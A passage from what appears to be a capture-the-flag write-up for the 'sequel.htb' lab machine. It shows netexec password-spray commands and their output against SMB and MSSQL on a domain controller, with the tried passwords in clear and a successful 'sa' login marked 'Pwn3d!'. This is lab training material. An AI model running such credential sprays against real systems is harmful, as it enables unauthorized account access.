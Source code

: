 ```bash
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\kevin:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sa:Md9Wlq1E5bZnVDVo STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\martin:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\angela:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\kevin:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE 
SMB         10.10.11.51     445    DC01             [-] sequel.htb\sa:MSSQLP@ssw0rd! STATUS_LOGON_FAILURE
```

<br />

There is a match for the user `oscar`, but no relevant SMB shares are available for this account.

We can run the same spray attack against `mssql`:

<br />

```bash
❯ netexec mssql sequel.htb -u users -p passwords --local-auth
MSSQL       10.10.11.51     1433   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:sequel.htb)
MSSQL       10.10.11.51     1433   DC01             [-] DC01\sa:0fwz7Q4mSpurIt99 (Login failed for user 'sa'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\martin:0fwz7Q4mSpurIt99 (Login failed for user 'martin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\angela:0fwz7Q4mSpurIt99 (Login failed for user 'angela'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\oscar:0fwz7Q4mSpurIt99 (Login failed for user 'oscar'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\kevin:0fwz7Q4mSpurIt99 (Login failed for user 'kevin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\sa:86LxLBMgEWaKUnBG (Login failed for user 'sa'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\martin:86LxLBMgEWaKUnBG (Login failed for user 'martin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\angela:86LxLBMgEWaKUnBG (Login failed for user 'angela'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\oscar:86LxLBMgEWaKUnBG (Login failed for user 'oscar'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\kevin:86LxLBMgEWaKUnBG (Login failed for user 'kevin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\sa:Md9Wlq1E5bZnVDVo (Login failed for user 'sa'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\martin:Md9Wlq1E5bZnVDVo (Login failed for user 'martin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\angela:Md9Wlq1E5bZnVDVo (Login failed for user 'angela'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\oscar:Md9Wlq1E5bZnVDVo (Login failed for user 'oscar'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [-] DC01\kevin:Md9Wlq1E5bZnVDVo (Login failed for user 'kevin'. Please try again with or without '--local-auth')
MSSQL       10.10.11.51     1433   DC01             [+] DC01\sa:MSSQLP@ssw0rd! (Pwn3d!)
```

